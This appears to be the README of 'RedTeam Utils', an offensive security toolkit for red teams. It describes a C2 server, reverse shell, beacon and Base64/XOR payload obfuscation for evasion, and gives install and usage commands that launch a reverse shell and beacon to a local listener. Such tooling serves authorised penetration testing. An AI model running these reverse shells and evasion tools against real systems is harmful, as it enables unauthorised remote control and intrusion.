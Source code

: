 RedTeam Utils is a collection of offensive security utilities designed for red team engagements and penetration testing.
It provides tools for Command & Control (C2), reverse shells, beacons, and payload obfuscation.

⚠️ Disclaimer: This project is for educational and authorized penetration testing purposes only.
Do not use it on systems you do not own or do not have explicit permission to test.

##Features

C2 Server

Execute remote commands on compromised systems.

Interactive shell over TCP.

Reverse Shell

Connects back to C2 for remote command execution.

Supports Linux & Windows.

Beacon

Periodic check-ins with configurable interval.

Logs all beacon activity to outputs/beacon_log.txt.

Obfuscation

Encode payloads with Base64.

XOR encoding for simple evasion.

Custom string replacement.

#Installation
git clone https://github.com/<alishams11>/redteam-utils.git
cd redteam-utils
pip install -r requirements.txt

#Usage
Start C2 Server
python3 main.py --c2 4444

Launch Reverse Shell
python3 main.py --reverse 127.0.0.1 4444

Start Beacon (interval = 5 seconds)
python3 main.py --beacon 127.0.0.1 4444 5

Obfuscate a Payload
python3 main.py --encode base64
python3 main.py --encode xor
python3 main.py --encode base64 xor

Example
C2 Session with Reverse Shell
screenshots/demo.png

#Roadmap

🔹 Add encryption for C2 communication.

🔹 Add stealth techniques for beacon.

🔹 Improve payload obfuscation with polymorphic encoding.


